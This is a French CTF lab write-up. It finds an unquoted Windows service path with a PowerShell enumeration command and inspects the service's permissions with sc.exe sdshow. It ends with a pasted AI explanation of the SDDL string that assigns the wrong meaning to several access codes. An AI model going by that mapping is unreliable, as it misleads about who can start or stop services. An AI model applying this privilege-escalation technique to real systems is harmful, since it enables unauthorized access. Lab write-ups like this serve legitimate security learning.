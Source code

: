 ```console

Mode                LastWriteTime     Length Name                              
----                -------------     ------ ----                              
-a---        06.10.2024     17:25         23 user.txt                          

SHELL> type user.txt
HMV{User_Flag_Obtained}
```

### Unquoted

Ne tournons pas autour du pot plus longtemps : le CTF s'appelle "quoted" on s'attend donc à une faille du type "unquoted service path".

Pour trouver des services vulnérables, on peut utiliser cette commande pompée sur HackTricks :

```console
SHELL> gwmi -class Win32_Service -Property Name, DisplayName, PathName, StartMode | Where {$_.StartMode -eq "Auto" -and $_.PathName -notlike "C:\Windows*" -and $_.PathName -notlike '"*'} | select PathName,DisplayName,Name

PathName                   DisplayName                Name                     
--------                   -----------                ----                     
C:\dotNet Update\dotnet... PEService                  PEService
```

On voit que le path `C:\dotNet Update\dotnet...` n'est pas correctement échappé et du coup Windows va d'abord voir s'il n'y a pas un exécutable `c:\dotNet.exe`, considérant le reste comme des arguments.

Tous les utilisateurs du système peuvent écrire dans `C:`, ça c'est classique, mais pourra-t-on démarrer le service ?

```console
SHELL> sc.exe sdshow PEService

D:(A;;CCLCSWRPWPDTLOCRRC;;;SY)(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;BA)(A;;CCLCSWLOCRRC;;;IU)(A;;CCLCSWLOCRRC;;;SU)(A;;RPWP;;;NS)S:(AU;FA;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;WD)
```

D'après différentes IA ce ne sera pas possible :

-------------------------------

You've provided the SDDL string for the `PEService` using `sc.exe sdshow PEService`:

`D:(A;;CCLCSWRPWPDTLOCRRC;;;SY)(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;BA)(A;;CCLCSWLOCRRC;;;IU)(A;;CCLCSWLOCRRC;;;SU)(A;;RPWP;;;NS)S:(AU;FA;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;WD)`

Let's break down the **DACL (D:)** part, which defines who has what permissions on the service:

- **`(A;;CCLCSWRPWPDTLOCRRC;;;SY)`**:
  
  - `A`: **Allow**
  - `CCLCSWRPWPDTLOCRRC`: This is a combination of many rights. For `SY` (Local System), this essentially grants **Full Control**. This includes:
    - `CC`: `SERVICE_CHANGE_CONFIG` (Change service configuration)
    - `LC`: `SERVICE_QUERY_STATUS` (Query service status)
    - `SW`: `SERVICE_START` (Start the service)
    - `RP`: `SERVICE_STOP` (Stop the service)
    - `WP`: `SERVICE_PAUSE_CONTINUE` (Pause/Continue the service)
    - `DT`: `DELETE` (Delete the service)
    - `LO`: `READ_CONTROL` (Read permissions)
    - `CR`: `WRITE_DAC` (Change permissions)
    - `RC`: `SERVICE_QUERY_CONFIG` (Query service config) - *Note: Some flags might overlap or be redundant in a "Full Control" context.*
  - `SY`: **NT AUTHORITY\SYSTEM** (Local System account)
